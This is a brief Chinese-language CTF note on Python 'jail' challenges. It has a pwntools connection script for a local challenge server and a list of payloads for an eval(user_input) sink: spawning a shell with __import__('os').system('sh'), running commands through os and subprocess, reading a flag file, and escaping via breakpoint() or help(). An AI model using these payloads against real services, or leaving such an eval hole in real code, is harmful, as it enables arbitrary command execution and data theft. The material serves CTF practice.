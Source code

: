 关键词：jail

nc或python连接入口：
```
from pwn import *

server_ip = '127.0.0.1'
server_port = 26582

connection = remote(server_ip, server_port)

received_data = connection.recv().decode('utf-8')
send_data = received_data[-32:-26] + received_data[-23:-17]

print(received_data)

connection.sendline(send_data.encode('utf-8'))
connection.interactive()
connection.close()
```
一般会给你代码审计，然后连接入口后输入payload。

```
基础代码
eval(user_input_data)
```

^
## **payload**
直接高权限命令读
```
__import__('os').system('sh') 返回交互式shell

__import__('os').system('ls -al /tmp')

__import__('subprocess').run('cd /tmp && ls -al', shell=True)
```

低权限文件读
```
print(open('/tmp/therealflag_b8c7f31438c67cea772d2ea57dc77918').read())
```

限制长度
返回交互式终端
```
breakpoint()

help()
```